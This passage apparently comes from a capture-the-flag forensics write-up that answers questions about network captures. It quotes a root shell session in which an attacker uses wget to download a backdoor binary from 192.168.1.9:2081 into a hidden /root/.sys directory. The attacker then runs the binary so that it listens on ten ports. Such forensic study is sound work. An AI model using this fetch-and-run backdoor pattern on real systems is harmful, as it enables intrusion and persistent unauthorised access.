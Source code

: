 ```bash
drwxr-xr-x.  2 root root    6 Jan 20 16:48 .sys
-rw-r--r--.  1 root root  129 May 11  2022 .tcshrc
-rw-------.  1 root root 4665 Jan 20 15:25 .viminfo
sh-5.1# cd .sys
cd .sys
sh-5.1# wget http://192.168.1.9:2081/sys
wget http://192.168.1.9:2081/sys
--2025-01-20 16:50:22--  http://192.168.1.9:2081/sys
Connecting to 192.168.1.9:2081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16664 (16K) [application/octet-stream]
Saving to: ...sys...


sys                   0%[                    ]       0  --.-KB/s
sys                 100%[===================>]  16.27K  --.-KB/s    in 0s

2025-01-20 16:50:22 (275 MB/s) - ...sys... saved [16664/16664]
```

`sys` is being stored at `/root/.sys/sys` and the port is `2081`

Flag: `KCTF{/root/.sys/sys_2081}`

### Port Fiesta (capture3.pcapng)

We need to find how many ports the backdoor opens.

We see the server is initialised with several ports:

```bash
sh-5.1# ./sys &
./sys &
[1] 7364
sh-5.1# Server started on port 12342
Server started on port 12344
Server started on port 12341
Server started on port 12343
Server started on port 12345
Server started on port 12340
Server started on port 12347
Server started on port 12346
Server started on port 12349
Server started on port 12348
```

It's active on 10 ports.

Flag: `KCTF{10}`

### The Backdoor's Whipser (capture3.pcapng)

We need to find what port the backdoor is active on.
